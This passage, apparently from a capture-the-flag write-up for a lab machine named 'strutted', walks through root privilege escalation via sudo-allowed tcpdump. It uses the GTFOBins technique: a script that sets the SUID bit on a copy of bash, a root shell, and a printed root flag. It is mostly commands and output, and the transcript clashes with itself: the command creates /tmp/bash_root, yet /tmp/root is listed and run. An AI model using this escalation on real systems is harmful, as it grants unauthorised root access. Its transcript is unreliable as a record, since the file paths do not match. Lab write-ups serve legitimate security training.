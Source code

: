 - GTFOBins has an entry for tcpdump
- We create a script that will copy `/bin/bash` to `/tmp/root` , assign it the SUID bit, and execute it with root privilege

```bash
james@strutted:~$ COMMAND='cp /bin/bash /tmp/bash_root && chmod +s /tmp/bash_root'
james@strutted:~$ TF=$(mktemp)
james@strutted:~$  echo "$COMMAND" > $TF
james@strutted:~$ chmod +x $TF
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
james@strutted:~$ ls -la /tmp/root
-rwsr-sr-x 1 root root 1396520 Oct 31 00:23 /tmp/root
```

- Now we can run `/tmp/root -p` where `-p` is used to preserve the effective privileges

```bash
james@strutted:~$ /tmp/root -p
root-5.1# whoami
root
```

### Root Flag

```bash
root-5.1# cat /root/root.txt
07aff89e9b9164f49546eb0bd12028e5
```
